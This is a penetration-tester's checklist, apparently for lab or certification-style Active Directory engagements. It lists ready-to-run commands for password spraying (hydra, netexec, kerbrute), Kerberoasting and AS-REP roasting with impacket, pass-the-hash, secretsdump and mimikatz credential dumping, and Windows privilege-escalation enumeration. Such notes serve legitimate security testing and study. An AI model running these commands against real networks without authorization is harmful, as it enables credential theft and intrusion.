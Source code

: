 # Penetration Test Checklist



## Unauthenticated Recon - Domain

* [ ] [Create a target list](../../active-directory/password-spraying/creating-a-target-user-list.md)
* [ ] Check for [AS-REPRoastable](../../active-directory/attacking-active-directory-authentication/as-rep-roasting.md) & [Kerberoastable](../../active-directory/attacking-active-directory-authentication/kerberoasting.md) users.&#x20;



***

## Initial Compromise of Network

* [ ] nmap scan of internal network
* [ ] smb shares
* [ ] Check for[ AS-REPRoast](../../active-directory/attacking-active-directory-authentication/as-rep-roasting.md) & [Kerberoastable](../../active-directory/attacking-active-directory-authentication/kerberoasting.md) users.&#x20;

## Windows Privilege Escalation

{% embed url="https://book.hacktricks.xyz/windows-hardening/checklist-windows-privilege-escalation" %}

***

## Harvested a New Credential&#x20;

<mark style="color:yellow;">**Make sure to test twice**</mark>. Once for domain and once for  "<mark style="color:yellow;">**--local-auth**</mark>" to test local user passwords.

### Spray Passwords

* ```shell-session
  $ hydra -l "yoshi" -p 'Mushroom!' -M ips.txt rdp
  ```
* ```shell-session
  $ netexec smb ips.txt -u users.txt -p passwords.txt 
  ```
* ```shell-session
  $ netexec winrm ips.txt -u users.txt -p passwords.txt
  ```
* <pre class="language-shell-session"><code class="lang-shell-session"><strong>$ netexec wmi ips.txt -u users.txt -p passwords.txt 
  </strong></code></pre>
* <pre class="language-shell-session"><code class="lang-shell-session"><strong>$ netexec mssql ips.txt -u users.txt -p passwords.txt -local-auth
  </strong></code></pre>

### Manual Spray (if above didn't recover anything).

* ```shell-session
  $ proxychains evil-winrm -i 10.10.93.154 -u Administrator -p "Passwords"
  ```
* ```shell-session
  $ proxychains xfreerdp /v:10.10.93.154 /u:Administrator /p:password
  ```



***

## Harvested Domain Credential

### Kerbrute

* ```shell-session
  $ proxychains kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
  ```

### Kerberoast

* ```shell-session
  $ proxychains impacket-GetUserSPNs -request -dc-ip 10.10.113.146 corp.com/web_svc
  ```

### ASREP Roast

* ```shell-session
  $ proxychains impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete
  ```

***

## Harvest new Hash

* [ ] Check with crackstation
* ```shell-session
  $ NetExec rdp 192.168.215.175 -u users.txt -H hashes.txt
  ```

***

## Harvested a new Private Key

### Spray Intranet (.ssh)

If we have a shell on a box and notice a user has a private key in their home directory, we should test it against all computers with ssh open.

* ```shell-session
  victim@host$ ssh -i id_rsa mario@172.16.233.14
  ```

***

## Popped a new Shell

### Manual Enumeration

* [ ] [Check **ALL** privileges](../windows-privilege-escalation/escalating-privilege.md#insecure-privileges) "whoami /priv" for potential exploits
* [ ] Check for sensitive files
* [ ] Check for potential binary hijacking
* [ ] Check for scheduled tasks / services running under other users.



### Domain Connected User

#### Check ACL's/ACE's

* [ ] bloodhound / sharphound
* [ ] powerview

### PWNED Shell?- Dump Secrets!

* <pre class="language-shell"><code class="lang-shell"><strong>$ proxychains impacket-secretsdump -hashes ":e728ecbadfb02f51ce8eed753f3ff3fd" celia.almeda@10.10.85.142
  </strong></code></pre>
* <pre class="language-powershell"><code class="lang-powershell"><strong>PS> .\mimikatz.exe
  </strong></code></pre>

***

## Privilege Escalation - Windows

### Automated Enumeration

* <pre class="language-powershell"><code class="lang-powershell"><strong>PS> .\winPEASx64.exe
  </strong></code></pre>
* ```powershell
  PS> powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
  ```

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md" %}

### Manual Enumeration

* ```
  systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Network Card(s)" /C:"Hotfix(s)"
  ```
* ```
  whoami /priv
  ```
* ```
  net user <user>
  ```
* ```
  net localgroup administrators
  ```
* ```
  cmd.exe /c dir /a C:\
  ```
* ```
  ls "program files"
  ```
* ```
  netstat -nao
  ```
* ```
  .\SharpHound -c All --domain medtech.com --zipfilename MEDTECH.zip
  ```

***

## Lateral Movement

* [ ] bloodhound / sharphound (Shortest path to high value targets)
* [ ] mimikatz
* [ ] netexec spray passwords & hashes









## Crying for help?

* [ ] Check [HackerRecipes](https://www.thehacker.recipes/ad/recon)

